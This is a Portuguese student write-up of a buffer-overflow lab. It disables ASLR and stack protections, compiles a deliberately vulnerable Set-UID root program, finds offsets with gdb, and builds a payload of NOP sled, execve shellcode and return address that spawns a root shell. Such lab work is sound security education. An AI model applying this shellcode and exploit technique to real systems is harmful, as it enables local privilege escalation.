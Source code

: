# Buffer Overflow

## Environment Setup

> Numa primeira fase, desligamos algumas das proteções do sistema operativo, como por exemplo a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.
>```bash
> $ sudo sysctl -w kernel.randomize_va_space=0
> $ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1: Getting Familiar with Shellcode

> Primeiro executamos um programa simples que abre uma shell utilizando o commando `execve`:
> ```c
> char *name[2];
> name[0] = "/bin/sh";
> name[1] = NULL;
> execve(name[0], name, NULL);
> ```
> De seguida, fizemos o mesmo utilizando o shellcode respetivo e invocando-o desde a stack, tanto para 32 bits como para 64 bits. <br><br>
> Em todos os casos, foi aberta uma shell no mesmo diretório em que foi executado o programa.

## Task 2: Understanding the Vulnerable Program

> Inicialmente estudamos o código do programa com uma vulnerabilidade *buffer-overflow*. Reparamos que tenta-se copiar para um buffer de tamanho máximo de 100 bytes, um array de carateres que pode ter até 517 bytes. Como o `strcpy` não verifica os limites do buffer, acaba por ocorrer overflow. <br><br>
> Para o programa vulnerável, desativamos o *StackGuard* e as proteções contra a execução de código invocado desde a stack. Para além disso, mudamos o owner do programa para `root` e ativamos o `Set-UID`
> ```bash
> $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
> $ sudo chown root stack
> $ sudo chmod 4755 stack
> ```

## Task 3: Launching Attack on 32-bit Program

> Para fazer uso da vulnerabilidade, primeiro criamos o ficheiro `badfile` vazio e executamos o código vulnerável em modo debug, de modo a descobrir a posição do endereço de retorno da função `bof()` relativamente ao inicio do buffer. Para isso usámos `gdb` para fazer debug e colocamos um breakpoint na função `bof()`.
> ```bash
> $ touch badfile # Criar o ficheiro badfile vazio
> $ gdb stack-L1-dbg # Executar o programa em modo debug
> ...
> gdb-peda$ b bof # Criar um breakpoint na função bof
> ...
> gdb-peda$ run # Executar o programa até parar no breakpoint
> ...
> gdb-peda$ next # Avançar algumas intruções até que o registo ebp passe de apontar para a stack frame da função bof(), visto que antes ainda apontava para a stack frame da função que chamou bof()
> ...
> gdb-peda$ p $ebp # Obter o valor de ebp
> $1 = (void *) 0xffffca98
> gdb-peda$ p &buffer # Obter o endereço do início do buffer
> $2 = (char (*)[100]) 0xffffca2c
> ```
> Após obter os endereços necessários, falta inserir no ficheiro `badfile` o conteúdo que pretendemos inserir no buffer (shellcode e o endereço de retorno que aponta para esse shellcode). Para isto usamos o programa fornecido em python, com as seguintes alterações <br> <br>
> Na variável `shellcode` inserimos o shellcode em 32-bits que executa uma shell
> ```python
> shellcode= (
>  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
>  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
>  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
> ).encode('latin-1')
> ```
> Criou-se uma array de bytes de tamanho 517 (tamanho máximo da array de carateres lida do ficheiro pelo programa vulnerável), em que todos os bytes são NOP (0x90)
> ```python
> content = bytearray(0x90 for i in range(517))
> ```
> Colocou-se o shellcode no final da array de bytes
> ```py
> start = 517-len(shellcode)  
> content[start:start + len(shellcode)] = shellcode
> ```
> Calculou-se o novo endereço de retorno que aponta para o shell code a executar
> ```py
> ret    = 0xffffca98 + start 
> ```
> Utilizando os 2 endereços obtidos no debug, calculou-se a localização do endereço de retorno relativamente ao inicio do array (offset) e colocou-se o novo endereço de retorno que aponta para o shellcode calculado anteriormente (ret)
> ```py
> offset = 0xffffca98 - 0xffffca2c + 4 
> L = 4  
> content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
> ```
> Executou-se o programa e este gerou o ficheiro `badfile`. <br><br>
> Finalmente, executou-se o programa vulnerável que provocou o buffer overflow e lançou uma shell com permissões root, tal como previsto. <br> <br>
> ![Buffer Overflow](../../Images/lab5task3.png)
